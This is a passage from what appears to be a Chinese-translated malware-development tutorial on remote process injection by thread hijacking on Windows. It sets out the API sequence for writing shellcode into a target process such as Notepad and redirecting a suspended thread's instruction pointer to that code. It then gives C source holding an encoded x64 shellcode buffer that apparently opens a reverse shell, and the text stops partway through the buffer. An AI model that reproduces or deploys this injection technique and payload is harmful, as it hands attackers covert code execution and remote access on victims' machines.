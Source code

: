 编译上述代码并检查`.text`PE 部分后，我们可以在开头看到我们的 shellcode：

## 通过线程劫持注入远程进程

下面列出了执行此技术所需的 API 调用：

打开我们想要注入的进程的句柄（在我们的例子中是记事本）`targetProcessHandle``OpenProcess`

在目标进程中分配一些可执行内存`remoteBuffer``VirtualAllocEx`

编写我们想要注入内存`remoteBuffer`（在步骤 2 中分配）的 shellcode，使用`WriteProcessMemory`

在目标进程中找到我们想要劫持的线程的线程ID。在我们的例子中，我们将获取目标进程（记事本）中第一个线程的线程 ID。

我们将利用`CreateToolhelp32Snapshot`创建`snapshot`目标进程的线程并使用 枚举它们`Thread32Next`。

这将为我们提供我们将要劫持的线程 ID。使用以下命令打开`threadHijacked`要劫持的线程的句柄`OpenThread`挂起目标线程 - 我们想要劫持 ( ) 的线程`threadHijacked``SuspendThread`检索目标线程的上下文`GetThreadContext`更新目标线程（在步骤 6 中检索）的指令指针（`RIP`寄存器）以指向 shellcode，该 shellcode 在步骤 3 中使用写入到目标进程的内存中`WriteProcessMemory`

提交被劫持线程的（在步骤 7 中更新的）新上下文：`SetThreadContext`

恢复被劫持的线程`ResumeThread`

享受反向shell

```c
#include "stdio.h"
#include "Windows.h"
#include <windows.h>
#include <tlhelp32.h>
#include <tchar.h>

int main(int argc, char* argv[])
{
	unsigned char buf[] =
		"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef"
		"\xff\xff\xff\x48\xbb\xa1\x88\x82\x73\xee\xc2\xdd\x4e\x48"
		"\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x5d\xc0\x01"
		"\x97\x1e\x2a\x1d\x4e\xa1\x88\xc3\x22\xaf\x92\x8f\x1f\xf7"
		"\xc0\xb3\xa1\x8b\x8a\x56\x1c\xc1\xc0\x09\x21\xf6\x8a\x56"
		"\x1c\x81\xc0\x09\x01\xbe\x8a\xd2\xf9\xeb\xc2\xcf\x42\x27"
		"\x8a\xec\x8e\x0d\xb4\xe3\x0f\xec\xee\xfd\x0f\x60\x41\x8f"
		"\x32\xef\x03\x3f\xa3\xf3\xc9\xd3\x3b\x65\x90\xfd\xc5\xe3"
		"\xb4\xca\x72\x3e\x49\x5d\xc6\xa1\x88\x82\x3b\x6b\x02\xa9"
		"\x29\xe9\x89\x52\x23\x65\x8a\xc5\x0a\x2a\xc8\xa2\x3a\xef"
		"\x12\x3e\x18\xe9\x77\x4b\x32\x65\xf6\x55\x06\xa0\x5e\xcf"
		"\x42\x27\x8a\xec\x8e\x0d\xc9\x43\xba\xe3\x83\xdc\x8f\x99"
		"\x68\xf7\x82\xa2\xc1\x91\x6a\xa9\xcd\xbb\xa2\x9b\x1a\x85"
		"\x0a\x2a\xc8\xa6\x3a\xef\x12\xbb\x0f\x2a\x84\xca\x37\x65"
		"\x82\xc1\x07\xa0\x58\xc3\xf8\xea\x4a\x95\x4f\x71\xc9\xda"
		"\x32\xb6\x9c\x84\x14\xe0\xd0\xc3\x2a\xaf\x98\x95\xcd\x4d"
		"\xa8\xc3\x21\x11\x22\x85\x0f\xf8\xd2\xca\xf8\xfc\x2b\x8a"
		"\xb1\x5e\x77\xdf\x3a\x50\xb5\xae\x7c\xfe\xbb\xb0\x73\xee"
		"\x83\x8b\x07\x28\x6e\xca\xf2\x02\x62\xdc\x4e\xa1\xc1\x0b"
		"\x96\xa7\x7e\xdf\x4e\xa0\x33\x42\xdb\xac\x40\x9c\x1a\xe8"
		"\x01\x66\x3f\x67\x33\x9c\xf4\xed\xff\xa4\x74\x11\x17\x91"
		"\xc7\x4b\xe0\x83\x72\xee\xc2\x84\x0f\x1b\xa1\x02\x18\xee"
		"\x3d\x08\x1e\xf1\xc5\xb3\xba\xa3\xf3\x1d\x06\x5e\x48\xca"
		"\xfa\x2c\x8a\x22\x8e\xe9\x01\x43\x32\x54\x28\xd2\x91\x41"
		"\x77\x57\x3b\x67\x05\xb7\x5e\xe0\xd0\xce\xfa\x0c\x8a\x54"
		"\xb7\xe0\x32\x1b\xd6\x9a\xa3\x22\x9b\xe9\x09\x46\x33\xec"
		"\xc2\xdd\x07\x19\xeb\xef\x17\xee\xc2\xdd\x4e\xa1\xc9\xd2"
		"\x32\xbe\x8a\x54\xac\xf6\xdf\xd5\x3e\xdf\x02\xb7\x43\xf8"
		"\xc9\xd2\x91\x12\xa4\x1a\x0a\x85\xdc\x83\x72\xa6\x4f\x99"
		"\x6a\xb9\x4e\x82\x1b\xa6\x4b\x3b\x18\xf1\xc9\xd2\x32\xbe"
		"\x83\x8d\x07\x5e\x48\xc3\x23\xa7\x3d\x15\x03\x28\x49\xce"
		"\xfa\x2f\x83\x67\x37\x6d\xb7\x04\x8c\x3b\x8a\xec\x9c\xe9"
```